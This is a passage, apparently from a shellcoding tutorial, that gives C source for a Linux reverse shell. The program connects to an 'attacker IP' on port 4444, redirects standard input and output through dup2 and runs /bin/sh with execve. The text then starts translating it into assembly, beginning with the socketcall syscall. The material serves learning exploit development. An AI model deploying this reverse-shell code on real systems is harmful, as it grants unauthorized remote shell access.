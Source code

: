 ```cpp

int main () {

	// attacker IP address
	const char* ip = "127.0.0.1";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

### assembly preparation

As shown in the C source code, you need to translate the following calls into Assembly language:           
 - create a socket.             
 - connect to a specified IP and port.          
 - then redirect stdin, stdout, stderr via `dup2`.      
 - launch the shell with `execve`.           

### create socket        

You need syscall `0x66` (SYS_SOCKETCALL) to basically work with sockets:

![sys_socketcall](./images/14/2021-10-16_12-29.png){width="80%"}       
